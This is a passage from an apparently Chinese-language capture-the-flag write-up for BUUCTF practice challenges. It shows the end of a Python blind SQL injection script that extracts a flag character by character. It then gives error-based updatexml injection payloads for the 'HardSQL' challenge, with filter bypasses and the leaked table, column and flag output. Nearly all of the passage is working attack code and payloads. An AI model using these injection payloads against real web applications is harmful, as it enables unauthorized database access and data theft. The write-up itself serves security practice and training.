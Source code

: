 ```python
    while head<tail:
        mid = (head+tail)//2
        payload = '0^(ascii(substr((select(flag)from(flag)),{i},1))>{mid})'
        data = {
            'id': payload.format(i=i,mid=mid),
        }
        # print(data)
        response = requests.post(url,data=data)
        # print(response.text)
        time.sleep(0.2)
        if "Hello" in response.text:
            head = mid + 1
        else:
            tail = mid
    flag += chr(head)
    print(flag)
    if chr(head) == '}':
        break;
```

## [极客大挑战 2019]HardSQL

过滤很多，但可以报错注入

```
1'or(updatexml(1,concat(0x7e,database(),0x7e),1))#

查表
http://24420293-d0db-4cbf-8943-d914d0f7e029.node3.buuoj.cn/check.php?username=admin&password=1'or(updatexml(1,concat(0x7e,(select(group_concat(table_name))from(information_schema.tables)where(table_schema)like(database())),0x7e),1))%23
# XPATH syntax error: '~H4rDsq1~'

查字段
http://24420293-d0db-4cbf-8943-d914d0f7e029.node3.buuoj.cn/check.php?username=admin&password=1'or(updatexml(1,concat(0x7e,(select(group_concat(column_name))from(information_schema.columns)where(table_name)like('H4rDsq1')),0x7e),1))%23
#  XPATH syntax error: '~id,username,password~'
# 这里 substr  mid 都过滤了，但可以使用left right 


http://24420293-d0db-4cbf-8943-d914d0f7e029.node3.buuoj.cn/check.php?username=admin&password=1'or(updatexml(1,concat(0x7e,left((select(group_concat(id,username,password))from(H4rDsq1)),31),0x7e),1))%23
# XPATH syntax error: '~1flagflag{53026842-85f6-489a-90'

http://24420293-d0db-4cbf-8943-d914d0f7e029.node3.buuoj.cn/check.php?username=admin&password=1'or(updatexml(1,concat(0x7e,right((select(group_concat(id,username,password))from(H4rDsq1)),31),0x7e),1))%23
# XPATH syntax error: '~42-85f6-489a-906b-eb5a80616c13}'

```
